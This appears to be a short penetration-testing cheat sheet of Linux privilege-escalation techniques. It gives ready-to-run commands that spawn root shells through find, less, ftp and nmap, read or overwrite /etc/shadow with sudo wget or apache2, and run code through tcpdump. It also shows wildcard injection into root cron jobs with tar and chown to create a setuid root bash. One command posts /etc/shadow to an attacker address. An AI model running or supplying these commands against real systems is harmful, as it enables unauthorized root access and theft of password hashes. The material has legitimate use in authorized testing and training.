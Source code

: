 * `find`; note that this technique permits you to escape inital PATH execution restrictions
```sh
find / -name whatever -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

* `more`, `less`, and `man`
```sh
'! /bin/sh'
'!/bin/sh'
'!bash'
```

* `ftp`
```sh
sudo ftp
ftp> !
```

* `nmap`
```sh
# < 5.35DC1
sudo nmap --interactive
nmap> !sh

# >= 5.35DC1
echo "os.execute('/bin/sh')" > shell.nse
sudo nmap --script=shell.nse
```

* Reading and overwriting privileged files with `wget`
```sh
# attempts to use the contents of the specified file as remote resources
sudo wget -i /etc/shadow

# overwrite a privileged file with custom contents; use -nH option to avoid
# creating hostname directories
sudo wget <url> -O /etc/shadow

# send a file to our attack machine; listen with nc to grab the file contents
sudo wget --post-file=/etc/shadow <attackip>
```

* Reading privileged files with Apache
```sh
sudo apache2 -f /etc/shadow
```

* Command execution via `tcpdump`; executes commands from /tmp/.test file
```sh
echo id | tee /tmp/.test && sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

* Injecting command-line options into a cron job command that uses a wildcard
```sh
# abusing tar
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
touch /writable/path/used/by/tar/--checkpoint=1
touch /writable/path/used/by/tar/--checkpoint-action=exec=sh\ runme.sh

# abusing chown to change our setuid shell to be owned by root; requires our reference file to be owned by root
# perform below in a directory where root-privileged cronjob with some variation of `chown *` is run
touch -- --reference=<referencefileownedbyroot>
```
